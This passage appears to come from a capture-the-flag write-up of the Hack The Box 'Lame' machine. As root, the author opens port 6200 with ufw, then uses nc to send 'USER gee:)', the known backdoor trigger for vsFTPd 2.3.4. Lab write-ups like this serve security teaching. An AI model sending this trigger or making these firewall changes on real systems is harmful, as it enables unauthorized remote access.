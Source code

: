 But since we are hackers and we have keys to the kingdom. Why not enable it for fun and test our exploit (don't worry, this wont mess up the box since as soon as we reboot the box the settings will go back to the original setup)

```sh
sh-3.2# sudo ufw allow 6200/tcp
sudo ufw allow 6200/tcp
Rule added
sh-3.2# sudo ufw allow 6200/udp
sudo ufw allow 6200/udp
Rule added
sh-3.2# sudo ufw reload
sudo ufw reload
```

And the port is now active

```sh
sh-3.2# sudo ufw status
sudo ufw status
Firewall loaded

To                         Action  From
--                         ------  ----
22:tcp                     ALLOW   Anywhere
22:udp                     ALLOW   Anywhere
21:tcp                     ALLOW   Anywhere
3632:tcp                   ALLOW   Anywhere
3632:udp                   ALLOW   Anywhere
139:tcp                    ALLOW   Anywhere
139:udp                    ALLOW   Anywhere
445:tcp                    ALLOW   Anywhere
445:udp                    ALLOW   Anywhere
6200:tcp                   ALLOW   Anywhere
6200:udp                   ALLOW   Anywhere
```

Lets attempt the exploit one more time.

```sh
┌─[george@parrot]─[~/HTB/boxes/lame]
└──╼ $ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER gee:)
331 Please specify the password.
PASS gee
^C
```

From the box i can see `Port 6200` is now active

![Beyond Root](/assets/img/lame/beyond_root.png)
